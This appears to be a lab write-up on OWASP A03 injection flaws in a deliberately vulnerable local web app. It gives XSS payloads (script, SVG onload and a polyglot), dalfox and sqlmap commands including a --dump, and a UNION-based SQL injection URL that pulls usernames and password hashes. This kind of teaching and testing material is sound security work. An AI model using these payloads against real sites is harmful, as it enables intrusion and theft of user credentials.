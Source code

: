 ```yaml
---
icon: syringe
---
```


# A03 - Injection

Injection vulnerabilities allow attackers to execute malicious code within a web application, affecting databases, scripts, or other parts of the application. In this example, we have both an **SQL Injection** and a **Cross-Site Scripting (XSS)** vulnerability on a specific page. Here’s how each can be exploited.

## Cross-Site Scripting (XSS)

For XSS, we can test by inputting `<script>alert(1)</script>` in the search field, and it triggers successfully. Other payloads, such as the following SVG payload or a polyglot, can also be used to test for XSS:

```html
"><svg/onload=alert(1)>
```

Polyglot XSS example:

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

Reference for polyglot payloads: [HackVault XSS Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

We can also use tools like [dalfox](https://github.com/hahwul/dalfox) to automate XSS testing:

```bash
dalfox url http://localhost:8042/A03.php -X POST -d comment=test
```

## SQL Injection (SQLi)

To test for SQL Injection, we can use **SQLmap (or Ghauri ofc** 😉) to automate the detection and exploitation of SQLi vulnerabilities:

```bash
sqlmap -u "http://localhost:8042/A03.php?username=admin"
sqlmap -u "http://localhost:8042/A03.php?username=admin" --dump
```

For a manual SQL Injection test, try this URL to extract data from the database:

```url
http://localhost:8042/A03.php?username=admi%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x71786b6a71%2CJSON_ARRAYAGG%28CONCAT_WS%280x6176666d7877%2Cid%2Cmd5_password%2Cusername%29%29%2C0x717a767171%29%2CNULL%20FROM%20vulnerable_app.users--%20-
```

This payload attempts to perform a SQL UNION-based injection to retrieve sensitive data from the `users` table.

